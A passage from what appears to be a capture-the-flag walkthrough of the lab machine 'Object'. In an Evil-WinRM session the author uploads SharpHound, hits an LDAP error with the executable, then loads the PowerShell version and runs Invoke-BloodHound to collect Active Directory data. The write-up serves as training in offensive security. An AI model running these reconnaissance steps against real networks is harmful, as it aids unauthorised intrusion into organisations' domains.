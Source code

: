 ### Bloodhound

#### Collect Data

I’ll download `SharpHound.exe` from
[here](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe)
and upload it to Object:

    
    
    *Evil-WinRM* PS C:\programdata> upload SharpHound.exe
    Info: Uploading SharpHound.exe to C:\programdata\SharpHound.exe
    
                                                                 
    Data: 1177600 bytes of 1177600 bytes copied
    
    Info: Upload successful!
    

Unfortunately, it doesn’t run:

    
    
    *Evil-WinRM* PS C:\programdata> .\sharphound.exe                                                         
    2022-02-27T11:04:34.8154550-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote                                        
    2022-02-27T11:04:34.8311111-08:00|INFORMATION|Initializing SharpHound at 11:04 AM on 2/27/2022
    2022-02-27T11:04:35.0029449-08:00|ERROR|Unable to connect to LDAP, verify your credentials
    *Evil-WinRM* PS C:\programdata> .\sharphound.exe -c all                
    2022-02-27T11:04:59.5341928-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote               
    2022-02-27T11:04:59.5498244-08:00|INFORMATION|Initializing SharpHound at 11:04 AM on 2/27/2022
    2022-02-27T11:04:59.6904929-08:00|ERROR|Unable to connect to LDAP, verify your credentials
    

YB1 pointed out to me that there’s [an open
issue](https://github.com/BloodHoundAD/SharpHound/issues/10) for this on the
SharpHound GitHub.

There typically is also a `SharpHound.ps1`, but it’s missing from GitHub.
Looking at the history, it was removed a few weeks ago:

[![image-20220227141846798](https://0xdfimages.gitlab.io/img/image-20220227141846798.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220227141846798.png)

I can go back to the previous commit and download the PowerShell script from
there. I’ll upload it and run it:

    
    
    *Evil-WinRM* PS C:\programdata> upload SharpHound.ps1
    Info: Uploading SharpHound.ps1 to C:\programdata\SharpHound.ps1
    
                                                                 
    Data: 1298852 bytes of 1298852 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> . .\SharpHound.ps1
    *Evil-WinRM* PS C:\programdata> Invoke-BloodHound -CollectionMethod All
    *Evil-WinRM* PS C:\programdata> ls
    
